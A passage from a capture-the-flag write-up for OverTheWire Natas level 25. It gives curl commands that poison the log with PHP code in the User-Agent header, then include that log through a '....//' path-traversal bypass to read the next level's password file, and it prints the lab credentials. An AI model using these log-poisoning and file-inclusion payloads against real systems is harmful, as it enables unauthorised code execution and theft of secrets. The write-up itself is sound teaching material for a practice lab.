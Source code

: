 ```php
		include($filename);
		return 1;
	}
	
	return 0;
}
```

## Solution

### Steps

With all these vulnerabilities identified, our objective will be:
* to create a fake user-agent that will inject PHP code to read the password file
* to trigger a fake alert (e.g. via `?lang=../`) with our fake user-agent to make sure a line of log is written
* to include the log file via an injection of the `lang` parameter

### Exploit

Let's first trigger the alert in the log file with our fake user agent, add gather the session cookie. Our user-agent string contains PHP code that will instruct PHP to read the password file.

~~~
$ curl -s \
	--user-agent "<?php readfile('/etc/natas_webpass/natas26'); ?>" \
	--user natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c \
	--cookie-jar sessid.txt \
	http://natas25.natas.labs.overthewire.org/?lang=../
~~~

The command above has generated a text file where our PHPSESSID cookie is stored. We can use a regular expression to extract the PHPSESSID value:

~~~
$ cat sessid.txt 
# Netscape HTTP Cookie File
# https://curl.haxx.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas25.natas.labs.overthewire.org	FALSE	/	FALSE	0	PHPSESSID	3o2ruekvm5j7i0o0mttnp26145

$ grep -Po "[a-zA-Z0-9]{26}" sessid.txt
3o2ruekvm5j7i0o0mttnp26145
unknown@unknown:/data/documents/challenges/overthewire/Natas/level25$ 
~~~

Now, let's access the log file. Notice that we use `....//` to access the parent level (as the file is read in the `language/` directory by default). This string will be escaped and transformed to `../` thanks to `str_replace('../', '')`.

~~~
$ curl -s \
	--user natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c \
	http://natas25.natas.labs.overthewire.org/?lang=....//logs/natas25_$(grep -Po "[a-zA-Z0-9]{26}" sessid.txt).log
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
~~~